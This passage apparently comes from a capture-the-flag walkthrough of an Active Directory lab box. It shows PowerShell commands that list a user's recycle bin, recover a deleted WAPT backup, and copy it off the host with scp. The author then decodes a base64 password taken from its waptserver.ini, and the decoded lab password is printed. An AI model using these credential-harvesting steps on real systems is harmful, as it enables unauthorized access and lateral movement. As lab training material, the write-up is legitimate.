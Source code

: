 Both administrator and M.SCHOOLBUS (as a member of desktop admins group) have access to GROUP POLICY CREATOR OWNERS group.
SO we found a user, that has the same permissions with Administrator over a high privilege group, thus skipping the requirement to become Administrator to use it.
![Pasted image 20250524145921](MediaFiles/Pasted%20image%2020250524145921.png)

Okay, but HOW to go from f.frizzle (our current user) towards M.SCHOOLBUS ?? since f.frizzle has NO CONTROL over M.SCHOOLBUS? somehow we have to gain access to this user.

Here comes the part that took me forever to find, since user's permissions did not help, we could check the recycle bin for anything usefull, unfortunately navigating to the recycle bin directly is not possible via ```cd```, instead we can use powershell to list its contents, by running the commands below one by one on the C:\Users\f.frizzle directory, according to this post:
https://jdhitsolutions.com/blog/powershell/7024/managing-the-recycle-bin-with-powershell/
```powershell
PS C:\Users\f.frizzle> $shell = New-Object -com shell.application 
PS C:\Users\f.frizzle> $rb = $shell.namespace(10) 
PS C:\Users\f.frizzle> $rb.Items()
```
output:
```shell
Application  : System.__ComObject
Parent       : System.__ComObject
Name         : wapt-backup-sunday.7z
Path         : C:\$RECYCLE.BIN\S-1-5-21-2386970044-1145388522-2932701813-1103\$RE2XMEG.7z
GetLink      :
GetFolder    :
IsLink       : False
IsFolder     : False
IsFileSystem : True
IsBrowsable  : False
ModifyDate   : 10/24/2024 9:16:29 PM
Size         : 30416987
Type         : 7Z File
```

As we can see, there is an item ```wapt-backup-sunday.7z``` , but somehow we have to transfer it to our machine, so lets copy this file to the f.frizzle's home dir:
```shell
PS C:\Users\f.frizzle> $path = $item | Select-Object -ExpandProperty Path
PS C:\Users\f.frizzle> Copy-Item -Path $path -Destination wapt-backup-sunday.7z
```

then in order to transfer it locally to our machine, we can use ```scp```
```shell
scp f.frizzle@frizz.htb:wapt-backup-sunday.7z .
```

Locally, by extracting the compressed file ```wapt-backup-sunday.7z``` i came accross multiple files.
The file that contained sth related to credentials was ```waptserver.ini``` and it contained a base64 string
```shell
wapt_password = IXN1QmNpz0BNZWhUZWQhUgo=
```
decoding the base64 gives us this, which appears to be the pass we were looking for
```shell
echo 'IXN1QmNpz0BNZWhUZWQhUgo=' | base64 -d

!suBci@MehTed!R
```
